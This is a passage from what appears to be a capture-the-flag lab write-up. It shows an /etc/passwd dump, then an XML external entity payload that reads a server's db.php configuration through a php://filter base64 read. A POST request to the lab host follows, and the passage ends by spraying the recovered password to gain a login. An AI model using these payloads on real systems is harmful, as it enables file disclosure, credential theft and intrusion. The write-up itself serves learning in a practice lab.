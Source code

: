 ```HTTP
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
  </tr>
</table>
```
Nice! We can see that we were able to read the `/etc/passwd` file. We can also see that the XML was parsed correctly and the data was added to the response.


# Foothold

Since  we know this is an Apache server, we can try and read the `db.php` file to see if we can find any credentials. We will modify our XML payload to read the `db.php` file located in the `/var/www/html/` directory.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-
encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
 <cwe>test</cwe>
 <cvss>test</cvss>
 <reward>&file;</reward>
</bugreport>
```
After encoding and submitting the payload we will receive a base64 encoded response. We can decode it using the following XML payload to read the `db.php` file.

```HTTP
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.129.198.241
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 375
```
Again we need to decode the base64 data we received.
It seems that we got some credentials and now it is possible to check if we can login. We are spraying this
password to system users we got from the /etc/passwd file and indeed we manage to get a successful
login with the user development .
